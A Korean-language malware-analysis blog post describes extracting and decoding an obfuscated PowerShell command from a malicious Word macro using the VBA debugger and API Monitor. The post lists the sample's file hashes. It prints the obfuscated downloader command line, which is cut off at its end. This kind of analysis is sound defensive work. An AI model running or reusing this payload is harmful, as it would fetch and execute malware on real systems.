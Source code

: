 ```yaml
---
layout: post
comments: true
categories: posts
title: Powshell script obfuscation decode
subtitle: with api monitor
featured-image: /images/header/header_004.jpg
tags: [malware]
date-string: JUNE 28, 2018
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Powshell script obfuscation decode
악성 워드 문서 내, 파워쉘로 전달되는 난독화된 문자열 해제하기

> Filename : INV-840681218377.doc
> - MD5 : 61f2858cc90a8a2f1bc754492b0a0369
> - SHA1 : c3ecb541f8ffe2597f1991b74aac2170b17be849
> - SHA256 : 529024a76742a7337f1fabb0ee417ac2214be7a6a682ac8a4f4a30951e915e5e
> - Filesize : 	225.00 KB (230400 bytes)
> - Detection (Virustotal **39/54**)
>  - ALYac : Trojan.Downloader.VBA.gen
>  - AhnLab-V3 : W97M/Downloader

악성 워드 문서의 매크로 삽입 확인<br>
- [보기] -> [매크로] -> [편집]<br>

Visuao Basic for Applications 에서 다음과 같이 스크립트 화면을 볼 수 있는데, 파워셀에 명령을 전달하기 전인 끝나는 지점 [End Sub] 지점에서 
브레이크 포인트[F9] 를 걸어두고 [F8] 키를 눌러 한 단계씩 코드를 실행하며 디버깅 할 수 있다.
마지막 한 변수 안의 값이 파워셀로 전달되는 페이로드가 저장된 것을 확인할 수 있다.
<center>
    <div class="photoset-grid-custom" data-layout="21">
		<img src="/images/2018-06-28/2018-06-28-mal-001.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-002.jpg">		
		<img src="/images/2018-06-28/2018-06-28-mal-003.jpg">
	</div>
</center><br>

PowerShell 명령을 디버깅 할수 있는 프로그램(PowerShell ISE) 으로 명령어를 실행할 수 있다. 
여기서 확인할 사항은 MAS 분석 시 나온 command line 의 값을 생략된 것으로 추정됨
파워셀은 MS에서 개발한 명령어 인터프리터로 XP 이후의 윈도우에서 지원한다고 한다.<br>
워드문서의 매크로를 실행 시, 파워셀이 실행되면서 명령어 전달 이후 바로 종료되기 때문에 프로세스는 잠시 잡아두어야 하는데 API Monitor 란 도구를 사용하여 실행되는 프로세스를 모니터링 및 디버깅이 가능하다.**(아래 그림의 빨간 테두리 안의 버튼이 활성화 되어 있어야 함)**
**ollyDBG 나 Immunity DBG 에서도 프로세스를 attach 시켜 확인 가능하나 프로그램 실행하면서 attach를 하려는 순간 프로세스가 종료되어 버림**
<br>
<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2018-06-28/2018-06-28-mal-004.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-005.jpg">		
		<img src="/images/2018-06-28/2018-06-28-mal-006.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-007.jpg">
	</div>
</center><br>

Powershell command line<br>

'''
PowersHell  [StriNG]::JOIn('',( '56W84c85%119k33N114U121k107N49%115~126Y118%121%127U104N60U82h121k104W50}75}121N126c95k112%117h121~114~
104}39}56h110k81h75U33W59}116~104k104k108c38U51k51k107}107N107h50U46W114N120%111}127~110N121}121h114%111h115}127%117~
121W104~101N50~127W115c113W51%77c70k70W94W51c92}116Y104c104c108Y38}51h51%107Y107~107k50Y120~117U114U123Y120~
115k114U123c120%115N123c104U110W125W117c114k117U114%123N50Y127N115c113%51%90h127%115~118c51k92N116Y104%104~
108U38W51k51W107k107c107}50}110h125W120Y117~115Y117~114h111c108U117%110%125~127N117W115k114}104~106~50W127c115~
113~51N117k84U122W79U75N89k51c92N116k104}104}108~38k51c51k107%107}107W50k113W115%115h126W117k112}121h125N108c108
Y50h127k115%113N51N109k116N115c43c42U51U92Y116}104~104h108}38N51N51k107Y107%107W50~126%111~49~117c106Y122h49}122
W113k50h127h115~113Y51}45N117W85Y84%37}51%59N50%79N108k112c117W104k52N59}92U59U53%39U56W112N74c112W60W33}60h59}
36%40U42%59U39k56U88U118Y90h33N56c121k114U106k38k104%121c113k108~55}59Y64k59c55%56~112W74k112W55W59c50U121}100N
121c59}39h122Y115N110W121k125U127k116}52N56}108U84}107k60%117W114N60%56k110%81}75~53h103U104W110W101}103}56h84U85}
119h50Y88h115}107W114W112c115W125Y120W90%117c112%121N52~56U108k84h107%48k60~56%88c118h90}53%39h79h104}125~110Y
104W49Y76Y110h115}127Y121%111k111~60c56N88~118N90W39c126}110c121c125%119c39W97k127~125k104c127N116}103k97W97' -spliT'u'-sp
'''

<center>
    <div class="photoset-grid-custom" data-layout="2">
		<img src="/images/2018-06-28/2018-06-28-mal-008.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-009.jpg">		
	</div>
</center><br>

<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
